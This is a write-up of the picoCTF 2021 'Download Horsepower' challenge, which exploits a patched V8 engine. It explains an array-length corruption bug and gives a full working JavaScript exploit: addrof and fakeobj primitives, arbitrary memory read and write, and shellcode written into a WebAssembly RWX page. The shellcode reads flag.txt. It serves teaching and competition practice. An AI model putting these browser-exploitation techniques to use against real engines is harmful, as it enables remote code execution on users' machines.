

<h1 align="center">🐎 Download Horsepower</h1>
<p align="center">
  <b>picoCTF 2021 Binary Exploitation Write-Up</b>
</p>
<p align="center">
  
  
  
  
</p>
<p align="center">
  A One-Line JavaScript Engine Patch, a Lie About Array Length, and Shellcode in a Wasm Page
</p>

---

# 📋 Environment

| Item       | Value                                                               |
| ---------- | ------------------------------------------------------------------- |
| Event      | picoCTF 2021 (run on CyLab Security Academy)                        |
| Category   | Binary Exploitation (V8 JavaScript engine)                         |
| Difficulty | Hard                                                               |
| Author     | wparks                                                              |
| Handout    | `d8` (patched V8 shell), `server.py`, `source.tar.gz` (patch, build scripts) |
| Task       | Run JavaScript under the patched engine, gain memory read/write, read `flag.txt` |
| Tools Used | `pwntools`, the patched `d8`                                        |

---

# 🗺️ Overview

> Download Horsepower is a patched build of V8, the JavaScript engine inside Chrome, run through its command-line shell `d8`. The patch adds one new array method, `setHorsepower`, that changes an array's recorded length without actually resizing the memory behind it. That single inconsistency is the whole vulnerability: once JavaScript believes an array is far longer than its real storage, reading and writing array elements runs off the end of that storage and into neighbouring objects in memory. From there we build the two primitives every browser exploit is built on, the ability to learn any object's address and the ability to forge a fake object at an address of our choosing, and from those we get full memory read and write. We finish the way these challenges usually end: we locate an executable memory page that a WebAssembly module always creates, overwrite it with a small piece of machine code that opens and prints `flag.txt`, and run it. The service runs our script and sends back whatever it prints, so the flag comes straight back to us. Because the engine shuffles objects around in memory from run to run, the exploit searches for the few offsets it needs at runtime rather than hard-coding them.

Steps:
* Read the patch: `setHorsepower` sets an array's length but never resizes its backing storage
* Use the oversized array to read and write past its real storage, into adjacent objects
* Build `addrof` (leak an object's address) and `fakeobj` (forge an object) from that out-of-bounds access
* Turn those into arbitrary memory read and write
* Overwrite a WebAssembly page with open/read/write shellcode and run it to print `flag.txt`

---

# 📑 Table of Contents

1. [A Short Primer on How V8 Stores Arrays](#a-short-primer-on-how-v8-stores-arrays)
2. [The Service and the Goal](#the-service-and-the-goal)
3. [The Patch: A One-Line Lie](#the-patch-a-one-line-lie)
4. [Turning the Lie Into Out-of-Bounds Access](#turning-the-lie-into-out-of-bounds-access)
5. [addrof and fakeobj](#addrof-and-fakeobj)
6. [Arbitrary Read and Write](#arbitrary-read-and-write)
7. [Shellcode in the Wasm Page](#shellcode-in-the-wasm-page)
8. [Staying Resilient to Offsets](#staying-resilient-to-offsets)
9. [The Exploit](#the-exploit)
10. [Flag](#-flag)
11. [Solution Summary](#solution-summary)
12. [Lessons and Takeaways](#lessons-and-takeaways)

---

# A Short Primer on How V8 Stores Arrays

A few ideas make the rest readable even without a background in browser internals.

* **An object's layout in memory.** Every JavaScript value lives somewhere in the engine's memory. An array is really two pieces: a small header object that records things like its length and a pointer to where the actual items live, and a separate block of memory, the **backing store**, that holds the items themselves.
* **Two kinds of arrays.** When an array holds only numbers with decimals, V8 stores them as raw 8-byte floating-point values packed together. When it holds objects, V8 instead stores 4-byte **compressed pointers**, which are short references to where each object lives. This difference is the lever we use: if we can read object references as if they were numbers, we learn addresses, and if we can write numbers as if they were object references, we can forge objects.
* **The length field.** The array header records how many items the array has. The engine trusts this number when you read or write `array[i]`. If that number is larger than the backing store can actually hold, the engine will happily read and write memory that does not belong to the array.
* **The shell.** `d8` is a bare command-line version of this engine. It runs a script and can print text. The challenge build has had almost everything removed except the ability to run code and print, so the only way to get the flag back is to make the engine itself print it.

> **In plain terms:** picture an array as a filing cabinet with a label on the front saying how many folders it holds, and a separate shelf that actually holds the folders. The engine believes the label. If we can change the label to claim far more folders than the shelf has room for, the engine will start reaching onto neighbouring shelves.

---

# The Service and the Goal

Connecting to the service is simple. It asks for the size of a script, then the script itself, runs it under `d8` with a 20-second limit, and sends back whatever the script printed:

```python
input_size = int(input("Provide size. Must be < 5k:"))
script_contents = sys.stdin.read(input_size)
res = subprocess.run(["./d8", f.name], timeout=20, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
p(f"Stdout {res.stdout}")
```

Two things follow from this. The engine runs with no special flags, so we cannot ask it to optimize or inspect anything; we only have ordinary JavaScript plus the one patched method. And the only channel back to us is whatever the script prints. So the finish has to be a small piece of machine code (shellcode) that opens `flag.txt` and writes its contents to standard output, which the service then echoes to us.

> **In plain terms:** we hand the server a script, it runs it and reads back the output. We cannot ask it to read the flag for us, so our script has to break out and print the flag itself.

---

# The Patch: A One-Line Lie

The handout includes the exact source change. The important part adds a method that sets an array's length directly:

```
// Gotta go fast!!
ArraySetHorsepower(... horsepower: JSAny): JSAny {
    const h: Smi = Cast<Smi>(horsepower) otherwise End;
    const a: JSArray = Cast<JSArray>(receiver) otherwise End;
    a.SetLength(h);          // just writes the length field
    ...
}
```

and the helper it calls simply overwrites the length field:

```
macro SetLength(l: Smi) {
    this.length = l;
}
```

Normally, growing an array goes through code that also allocates a bigger backing store. This patch skips all of that. It writes the new length straight into the header and does nothing else. The backing store stays whatever size it was. So after `a.setHorsepower(0x200)`, the array *claims* to hold 512 items while its storage still only holds a handful.

> **In plain terms:** the patch lets us rewrite the label on the cabinet to any number we like, without adding a single shelf. The engine now thinks there are hundreds of folders where there is only room for a few.

---

# Turning the Lie Into Out-of-Bounds Access

We create a small array of decimals and then inflate its length:

```javascript
var oob = [1.1, 1.1, 1.1, 1.1, 1.1, 1.1];
oob.setHorsepower(0x200);     // length now claims 512, storage still holds 6
```

Reading `oob[20]` or `oob[100]` now reads 8 bytes of memory that sit past the real storage, which is wherever the engine placed the next objects. Writing those indices writes into that neighbouring memory. We lay out a couple of other objects right after `oob` so we know what is sitting there: another array of objects, and some throwaway values. Now `oob` can read and write the internals of its neighbours.

> **In plain terms:** because the cabinet claims hundreds of folders, asking for folder number 100 makes the engine walk past the end of our shelf and pull a folder off whichever shelf is next. We put our own things on that next shelf so we know what we are touching.

---

# addrof and fakeobj

Two building blocks turn out-of-bounds access into a real exploit.

**addrof** gives us the memory address of any object. We keep an array of objects next to `oob`. When we store a target object into that array, its 4-byte compressed address appears in the neighbour's storage, and `oob` can read that slot as if it were part of a number. Reading it back hands us the address:

```javascript
function addrof(x){ oa[0] = x; return read_neighbour_slot(); }
```

**fakeobj** is the mirror image. We write a chosen address into the neighbour's object storage, and when we read that array element back, the engine treats our number as a real object pointer and hands us a "fake object" sitting at the address we chose:

```javascript
function fakeobj(a){ write_neighbour_slot(a); return oa[0]; }
```

> **In plain terms:** addrof is reading the home address written on a folder; fakeobj is writing a home address of our choosing onto a blank folder so the engine will go knock on that door for us. With both, we can find anything and point the engine anywhere.

---

# Arbitrary Read and Write

With addrof and fakeobj we assemble full memory read and write. The trick is to forge a fake array whose "where my items live" pointer we control. We build a normal array of decimals whose first value is the engine's marker for a decimal array, use `fakeobj` to lay a fake array object over it, and then set the fake array's storage pointer to any address we like. Reading element zero of the fake array now reads that address, and writing it writes there:

```javascript
function arb_read(addr){
  var arr = [itof(f_map), 1.2, 1.3, 1.4];
  var fake = fakeobj(addrof(arr) - 0x20n);
  arr[1] = itof(0x800000000n + addr - 0x8n);   // point the fake array's storage at addr
  return ftoi(fake[0]);
}
function arb_write(addr, val){
  var arr = [itof(f_map), 1.2, 1.3, 1.4];
  var fake = fakeobj(addrof(arr) - 0x20n);
  arr[1] = itof(0x800000000n + addr - 0x8n);
  fake[0] = itof(val);
}
```

`f_map` is the engine's internal marker that says "this is an array of decimals," which we read straight out of memory with the out-of-bounds array (it is part of our own `oob` array's header, which conveniently lands within reach).

> **In plain terms:** we build a decoy array and move its "shelf location" to any address in the program. After that, reading or writing the decoy reads or writes that address. We now have the run of the program's memory.

---

# Shellcode in the Wasm Page

The engine refuses to run code from ordinary data memory, so we need a page of memory that is both writable and executable. Creating a WebAssembly module gives us exactly that: the engine compiles the module into a read-write-execute page. We find the address of that page through a pointer stored in the WebAssembly instance, then redirect a scratch buffer's storage onto it and copy our machine code in:

```javascript
var wasm_instance = new WebAssembly.Instance(new WebAssembly.Module(wasm_code));
var pwn = wasm_instance.exports.main;
var rwx = arb_read(addrof(wasm_instance) + 0x68n);   // the executable page
...
arb_write(addrof(buf) + 0x14n, rwx);                 // aim a buffer at that page
for (let i=0;i<shellcode.length;i++) dv.setUint32(4*i, shellcode[i], true);
pwn();                                                // run it
```

The machine code opens `flag.txt`, reads it, and writes it to standard output. Because the service captures and returns everything our script prints, the flag comes back to us.

> **In plain terms:** WebAssembly hands us a scratch page the processor is allowed to execute. We write our own instructions onto it and jump to them. Those instructions read the flag file and print it, and the server passes the printout straight back.

---

# Staying Resilient to Offsets

The challenge hints warn that the engine does not place objects in the same spot every time, so fixed positions are fragile. The exploit therefore searches at runtime for the two things it needs. It finds the decimal-array marker by scanning the out-of-bounds view for our own array's length value and reading the marker next to it. It finds the neighbouring object array by looking for four identical references in a row, then confirming the right one by changing one entry and watching which memory word changes. Both searches key off patterns that hold regardless of where the engine happened to place things, so the exploit works across runs rather than only on one layout.

> **In plain terms:** instead of memorizing where each folder sits, the script recognizes them by their shape. It changes one folder and sees which slot moves, which tells it for certain which shelf is which, no matter how the engine arranged them.

---

# The Exploit

The script on our side speaks the service's simple protocol: send the length, then the bytes of the JavaScript exploit, then read back the output and pull out the flag. The exploit is embedded, so only `pwntools` is required.

```python
#!/usr/bin/env python3
from pwn import *
import sys, re

context.log_level = 'info'
HOST = sys.argv[1] if len(sys.argv) > 1 else 'chatelaine.cylabacademy.net'
PORT = int(sys.argv[2]) if len(sys.argv) > 2 else 31357

EXPLOIT_JS = r"""
var ab = new ArrayBuffer(8);
var f64 = new Float64Array(ab), u32 = new Uint32Array(ab);
function ftoi(f){ f64[0]=f; return (BigInt(u32[1]>>>0)<<32n)|BigInt(u32[0]>>>0); }
function itof(i){ u32[0]=Number(i & 0xffffffffn); u32[1]=Number((i>>32n)&0xffffffffn); return f64[0]; }

var MAGIC = 0x200;
var oob = [1.1,1.1,1.1,1.1,1.1,1.1];
var markA = {}, markB = {};
var oa = [markA,markA,markA,markA];
oob.setHorsepower(MAGIC);                       // length corruption -> OOB on oob[]

function g32(w){ var i=w>>1; f64[0]=oob[i]; return (w&1)?(u32[1]>>>0):(u32[0]>>>0); }
function s32(w,v){ var i=w>>1; f64[0]=oob[i];
  if (w&1) u32[1]=Number(v & 0xffffffffn); else u32[0]=Number(v & 0xffffffffn);
  oob[i]=f64[0]; }

// float-array marker: oob's own header is [map, props, elements, length==MAGIC<<1]
var f_map = 0n;
for (let w=0; w<0x100; w++){ if (g32(w)===(MAGIC<<1)){ f_map=BigInt(g32(w-3)); break; } }

// object-array storage: runs of 4 equal words, confirmed by toggling oa[0]
var cands=[];
for (let w=0; w<0xF8; w++){ var v=g32(w); if (v!==0 && v===g32(w+1)&&v===g32(w+2)&&v===g32(w+3)) cands.push(w); }
oa[0]=markB;
var K=-1;
for (let w of cands){
  var e0=g32(w);
  if (e0!==g32(w+1) && g32(w+1)===g32(w+2) && g32(w+2)===g32(w+3) && (e0&1)===1 && e0>0x08000000){ K=w; break; }
}

function addrof(x){ oa[0]=x; return BigInt(g32(K)); }
function fakeobj(a){ s32(K, a); return oa[0]; }

function arb_read(addr){
  var arr=[itof(f_map),1.2,1.3,1.4];
  var fake=fakeobj(addrof(arr)-0x20n);
  arr[1]=itof(0x800000000n + addr - 0x8n);
  return ftoi(fake[0]);
}
function arb_write(addr,val){
  var arr=[itof(f_map),1.2,1.3,1.4];
  var fake=fakeobj(addrof(arr)-0x20n);
  arr[1]=itof(0x800000000n + addr - 0x8n);
  fake[0]=itof(val);
}

var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_instance = new WebAssembly.Instance(new WebAssembly.Module(wasm_code));
var pwn = wasm_instance.exports.main;

var leaker = addrof(wasm_instance);
var rwx = arb_read(leaker + 0x68n);

var shellcode=[0x747868,0x2eb84800,0x616c662f,0x50742e67,0x6ae78948,0x6a5e00,0x58026a5a,0x8948050f,0xe68948c7,0x6a5a646a,0x50f5800,0x6a5f016a,0x50f5801];
var buf=new ArrayBuffer(0x100), dv=new DataView(buf);
arb_write(addrof(buf)+0x14n, rwx);
for(let i=0;i<shellcode.length;i++) dv.setUint32(4*i, shellcode[i], true);
pwn();
"""

def main():
    js = EXPLOIT_JS.encode()
    assert len(js) < 20000, "script too big for the server"
    io = remote(HOST, PORT)
    io.recvuntil(b'Must be < 5k:')
    io.sendline(str(len(js)).encode())
    io.recvuntil(b'Provide script please!!')
    io.send(js)
    text = io.recvall(timeout=30).decode('latin-1', 'replace')
    io.close()
    m = re.search(r'(?:picoCTF|academy)\{[^}]*\}', text)
    if m: log.success('FLAG: ' + m.group(0))
    else: log.warning('No flag. Tail:\n' + text[-800:])

if __name__ == '__main__':
    main()
```

Run it:

```text
$ python3 horsepower_pwn.py
[+] Opening connection to chatelaine.cylabacademy.net on port 31357: Done
[+] FLAG: academy{sh0u1d_hAv3_d0wnl0ad3d_m0r3_rAm_db0a9ebc7907f113}
```

> **In plain terms:** the script uploads the exploit, the engine runs it, our machine code prints the flag, and the server hands it back.

---

# 🚩 Flag

```text
academy{sh0u1d_hAv3_d0wnl0ad3d_m0r3_rAm_db0a9ebc7907f113}
```

---

# Solution Summary



---

# Lessons and Takeaways

* **Length and storage must never disagree.** The entire break comes from one method that updates an array's length without resizing the memory behind it. A bounds check is only as good as the size it checks against, and here that size was a number the engine was tricked into trusting.
* **Two small primitives are the whole game.** Learning an object's address and forging an object at an address turn a single out-of-bounds array into full control of memory. Browser exploits almost always reduce to building those two tools.
* **A writable page that is also executable is the finish line.** WebAssembly legitimately needs executable memory, which hands an attacker a place to put their own instructions. Keeping code memory and data memory strictly separate is a core defense.
* **Assume the heap moves and search for what you need.** Object positions shift between runs, so the exploit recognizes its targets by their shape and confirms them by poking one and watching what changes. Robust exploits do not hard-code addresses, and robust defenses do not assume attackers will fail to adapt.
* **A minimal attack surface still was not minimal enough.** The build stripped almost every feature from the shell, yet one small added convenience method reopened the door. Every line of new privileged code is a new place for a mistake to live.

---

Written by **TheDingo8MyBaby**
picoCTF 2021 • Download Horsepower • flag: academy{sh0u1d_hAv3_d0wnl0ad3d_m0r3_rAm_db0a9ebc7907f113}
